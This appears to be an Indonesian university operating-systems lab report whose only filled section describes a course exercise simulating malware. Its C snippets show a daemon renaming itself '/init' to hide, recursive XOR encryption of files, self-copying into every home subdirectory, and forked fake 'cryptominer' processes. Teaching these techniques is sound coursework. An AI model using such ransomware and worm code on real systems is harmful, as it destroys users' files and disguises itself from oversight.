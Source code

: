 # Laporan Praktikum Sisop Modul 2 Kelompok IT21
# Anggota
1. Nisrina Bilqis - 5027241054
2. Hanif Mawla Faizi - 5027241064
3. Dina Rahmadani - 5027241065

# Soal_1

# Soal_2

# Soal_3
## Deskripsi Soal

Pada soal ini, kami diminta untuk mensimulasikan sebuah malware yang terdiri dari beberapa fitur layaknya ransomware atau worm sungguhan. Malware ini terdiri dari beberapa proses anak yang berjalan secara daemon dan berfungsi untuk mengenkripsi data, menyebarkan salinan binary, serta melakukan simulasi cryptomining.

Seluruh fitur harus dijalankan melalui satu binary utama `runme`, yang akan berubah nama prosesnya menjadi `/init`. Kemudian, secara paralel, `runme` akan memunculkan tiga proses anak:
- `wannacryptor` → proses enkripsi file
- `trojan.wrm` → proses penyebaran malware
- `rodok.exe` → proses simulasi fork bomb + cryptominer

Malware ini berjalan berulang setiap 30 detik, dan hanya `runme` yang benar-benar dijalankan, tidak mengeksekusi ulang hasil salinan malware yang tersebar.

---

### Subsoal a : Daemon dan Rename Proses
```c
daemonize();
prctl(PR_SET_NAME, "/init", 0, 0, 0);
```
- Program `runme` melakukan `daemonize()` untuk berjalan di background tanpa terminal.
- Menggunakan `prctl(PR_SET_NAME, "/init", ...)` untuk mengubah nama proses menjadi `/init`.
- Hal ini membuat proses utama malware tersamarkan saat dilihat di proses list (`ps`).

---

### Subsoal b : Enkripsi oleh `wannacryptor`
```c
void xor_file(const char *filepath, unsigned char key) {
    FILE *fp = fopen(filepath, "rb+");
    if (!fp) return;
    int ch;
    while ((ch = fgetc(fp)) != EOF) {
        fseek(fp, -1, SEEK_CUR);
        fputc(ch ^ key, fp);
    }
    fclose(fp);
}

```
```c
unsigned char key = (unsigned char)(time(NULL) % 256);
wannacryptor(root_path, key);

```
- Fungsi **wannacryptor()** akan men-scan semua file dan folder dalam direktori tempat **runme** dijalankan, lalu mengenkripsinya menggunakan operasi XOR dengan key dari timestamp.
- File **keylog.txt** disimpan untuk jaga-jaga bila perlu dekripsi.
- Karena kelompok **ganjil**, metode yang digunakan adalah **enkripsi rekursif langsung**, bukan ZIP.

---

### Subsoal c : Penyebaran Malware oleh `trojan.wrm`
```c
void spread_malware(const char *self_path) {
    ...
    snprintf(dest, sizeof(dest), "%s/runme", path);
    ...
    fwrite(buf, 1, n, dst);
    chmod(dest, 0755);
}

```
**Hasil yang Diharapkan :**
- Proses `trojan.wrm` akan menyebarkan salinan binary `runme` ke semua subdirektori dalam `/home/user`.
- Penyebaran hanya sebatas penyalinan (tidak mengeksekusi ulang salinan).
- Binary yang disalin tetap bernama `runme` dan memiliki izin eksekusi (chmod 755).

---

### Subsoal d : Looping 30 Detik
```c
while (1) {
    ...
    wannacryptor(...);
    sleep(30);
}

```
- Proses **wannacryptor** dan **trojan.wrm** berjalan selamanya dan melakukan tugasnya tiap 30 detik.
- **runme** utama akan tetap aktif dan menjadi parent dari seluruh proses ini.

---

### Subsoal e & f : Fork Bomb & Cryptomining oleh `rodok.exe`
```c
void spawn_miners() {
    for (int i = 0; i < 4; i++) {
        pid_t pid = fork();
        if (pid == 0) {
            snprintf(name, sizeof(name), "mine-crafter-%d", i);
            ...
            while (1) {
                sleep(delay);
                generate_hash(hash);
                ...
                fprintf(f, "%s[Miner %02d] %s\n", timestamp, i, hash);
            }
        }
    }
}

```
```c
if (fork() == 0) {
    prctl(PR_SET_NAME, "rodok.exe", 0, 0, 0);
    spawn_miners();
    while (1) pause();
}

```
- **rodok.exe** akan memunculkan 4 proses **mine-crafter-XX** yang melakukan hashing acak (cryptomining) setiap 3–30 detik.
- Nama proses diubah agar tampil sebagai **mine-crafter-0**, **mine-crafter-1**, dst.
- Log hasil mining ditulis ke **/tmp/.miner.log**.

---

### Subsoal g : Logging Hash Cryptominer
**Contoh Log :**
```c
[2025-04-10 17:32:05][Miner 00] d1f4c93aa8dabc17e9a4...
```
**File Output :**
```
/tmp/.miner.log
```
- Hasil cryptomining dari setiap **mine-crafter** dicatat lengkap dengan timestamp dan ID prosesnya.

---

### H : Dependency Proses Fork
- rodok.exe adalah parent dari semua proses mine-crafter-XX.
- Karena rodok.exe menjalankan pause(), prosesnya tetap hidup dan menjaga anak-anaknya.
- Jika rodok.exe dihentikan (kill), maka semua mine-crafter juga akan mati.

# Soal_4
